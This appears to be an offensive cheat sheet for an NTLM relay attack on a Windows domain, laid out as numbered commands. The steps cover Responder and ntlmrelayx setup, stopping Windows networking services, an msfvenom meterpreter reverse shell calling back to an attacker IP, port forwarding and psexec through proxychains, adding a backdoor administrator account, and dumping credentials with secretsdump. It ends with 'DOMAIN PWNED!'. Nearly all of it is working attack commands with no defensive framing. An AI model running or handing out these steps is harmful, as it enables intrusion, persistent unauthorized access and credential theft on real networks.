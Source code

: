 # WEAPONIZED NTLM RELAY

## Tools: ntlmrelayx.py, responder

#### 1) Turn off SMB in Responder configuration as ntlmrelayx.py will be handling SMB

#### sudo sed -i 's/SMB = On/SMB = Off/' /etc/responder/Responder.conf

#### 2) Start responder

#### sudo python3 responder.py -I INTERFACE

#### 3) ntlmrelayx.py -t ldap://IP -smb2support --escalate-user USER

## TIP: Works only when SMB signing is DISABLED (Use nmap for SMB privileges on the network)

#### 4) Required packages: krb5-user, cifs-utils

#### 5) sc stop netlogon

#### 6) sc stop lanmanserver and sc config lanmanserver start= disabled

#### 7) sc stop lanmanworkstation and sc config lanmanworkstation start= disabled

#### 8) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f exe > shell.exe

#### 9) ntlmrelayx.py -t smb://DC -smb2support -socks

#### 10) portfwd add -R -L 0.0.0.0 -l 445 -p 445 (Meterpreter session)

#### Wait 1-3 minutes for tunnel

#### 11) Add "socks4 127.0.0.1 1080" to proxychains configuration file /etc/proxychains.conf

#### 12) proxychains psexec.py -no-pass DOMAIN/USERNAME@IP_ADDRESS

#### 13) net user jimmy PASSWORD /add

#### 14) net localgroup Administrators /add jimmy

#### Alternate tool: SMBExec.py

#### 15) secretsdump.py 'DOMAIN/jimmy:PASSWORD:@IP_ADDRESS

#### 16) DOMAIN PWNED!
